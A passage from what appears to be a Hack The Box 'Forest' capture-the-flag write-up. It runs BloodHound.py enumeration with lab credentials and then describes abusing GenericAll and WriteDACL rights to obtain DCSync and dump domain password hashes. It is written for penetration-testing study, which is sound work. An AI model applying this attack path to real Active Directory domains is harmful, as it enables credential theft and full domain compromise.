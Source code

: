 Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Here, we used a Python based ingestor for BloodHound, [BloodHound.py](https://github.com/fox-it/BloodHound.py).

```bash
$ bloodhound-python -c All -u svc-alfresco -p s3rvice -d htb.local -ns 10.129.95.210 --zip
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 31 users
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 09S
INFO: Compressing output into 20220204141002_bloodhound.zip
```

Now, you can import the generated file (*20220204141002_bloodhound.zip*) in BloodHound by running `sudo neo4j start`, then execute BloodHound in another terminal with the `bloodhound` command.

## Getting Administrator Privileges

It's time to elevate our privileges and get an administrator access. Back to *BloodHound*, we can see that our user, **svc-alfresco**, is a member of the **"Account Operators"** group which has *GenericAll* permission on the **"Exchange Windows Permissions"** group. 

With [GenericAll](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) permission, we have full rights to the targeted object (add users to a group, reset user's password, etc.) and we can abuse this weak permission.

![image-center](/images/htb/htb_forest_bloodhound_02.png){: .align-center}

Moreover, the **"Exchange Windows Permissions"** does have *WriteDACL* permission on the Domain (*htb.local*). It means that if we create a user and add it to the **"Exchange Windows Permissions"** group, we could give him [DCSync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync) access rights and dump domain controller password hashes.
